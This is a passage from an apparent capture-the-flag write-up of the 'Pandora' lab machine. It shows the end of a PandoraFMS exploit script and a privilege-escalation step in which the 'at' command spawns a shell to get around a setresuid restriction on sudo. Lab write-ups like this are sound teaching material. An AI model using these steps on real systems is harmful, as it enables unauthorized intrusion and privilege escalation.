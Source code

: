 ```py
else:
    print("[ - ] Cannot login to PandoraFMS...")
```

![](/assets/img/posts/pandora/matt-shell.png)


# Privesc

## setresuid Restriction Bypass

Now we can access to `/usr/bin/pandora_backup`.

But running `sudo -l` gives an error
```bash
(remote) matt@pandora:/home/matt$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

And this error tells that user don't have permission to run [`setresuid()`](https://man7.org/linux/man-pages/man2/setresuid.2.html) function.

That means we can not able to run suid binaries as root.

we could use `at` command to bypass shell restriction
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

![](/assets/img/posts/pandora/shell-restriction.png)
